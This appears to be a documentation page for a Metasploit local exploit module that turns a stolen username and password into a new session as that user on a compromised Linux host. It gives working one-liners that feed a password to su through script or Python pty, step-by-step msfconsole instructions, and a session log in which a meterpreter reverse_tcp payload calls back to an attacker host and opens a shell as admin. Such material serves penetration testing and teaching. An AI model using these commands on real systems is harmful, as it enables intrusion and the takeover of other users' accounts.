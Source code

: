 ## Description

  This module attempts to create a new login session by invoking the su command of a valid username and 
  password. If the login is successful, a new session is created via the specified payload. While this 
  functionality can be reproduced by a TTY shell, a hacker might want to switch users with a meterpreter 
  session, or simply have all of their shells managed in one place.

  The su command is used in Linux and Unix environments to change to another user in Linux. We can use this
  command to launch our payload as another user by running `su - [username] -c [payload]`. However, because
  you cannot pass in the password into su directly, we have to get a little more crafty. By running a command
  in sh, we can pipe the output to our su command (kind of) by using the following command:
  `sh -c 'sleep 1; echo [password]' | script /dev/null -qc 'su - [username] -c [payload]'`.

  Working example: `sh -c 'sleep 1; echo lamepassword' | script /dev/null -qc 'su - admin -c /tmp/shell'`

  In order for the above example to work, the `script` command must be apart of the `util-linux` version 2.26+ 
  package. If this is not the case, this module can attempt to use Python's `pty` library.

  Working example: `python -c "import os, pty, base64; os.close(0); pty.spawn('su - admin -c /tmp/shell'.split(), lambda fd: os.read(fd, 1024), lambda fd: 'lamepassword')"`

## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Get valid target username and password
  4. Do: `use exploit/linux/local/su_login`
  5. Do: `set SESSION [SESSION]`
  6. Do: `set USERNAME [USERNAME]`
  7. Do: `set PASSWORD [PASSWORD]`
  8. Do: `set PAYLOAD linux/x86/meterpreter/reverse_tcp`
  9. Do: `set LHOST [LHOST]`
  10. Do: `set LPORT [LPORT]`
  11. Do: `run`
  12. You should get a new session as the specified user

## Options

  ### USERNAME
  The username of the user to switch to
  
  ### PASSWORD
  The password of the user to switch to

## Scenarios

  ```
  meterpreter > getuid
  Server username: tester @ edf3515e4c8f (uid=1000, gid=1000, euid=1000, egid=1000)
  meterpreter > background
  [*] Backgrounding session 1...  

  msf > use exploit/linux/local/su_login 
  msf exploit(linux/local/su_login) > set SESSION 1
  msf exploit(linux/local/su_login) > set USERNAME admin
  msf exploit(linux/local/su_login) > set PASSWORD lamepassword
  msf exploit(linux/local/su_login) > set PAYLOAD linux/x86/meterpreter/reverse_tcp
  msf exploit(linux/local/su_login) > set LHOST 192.168.3.193
  msf exploit(linux/local/su_login) > set LPORT 4445
  msf exploit(linux/local/su_login) > run

  [*] Started reverse TCP handler on 192.168.3.193:4445 
  [*] Uploading payload to target
  [*] Attempting to login with su
  [*] Sending stage (976712 bytes) to 172.17.0.2
  [*] Meterpreter session 2 opened (192.168.3.193:4445 -> 172.17.0.2:39868) at 2020-09-23 04:26:49 -0400

  meterpreter > getuid
  Server username: admin @ 59f089909a39 (uid=1001, gid=1001, euid=1001, egid=1001)
  ```
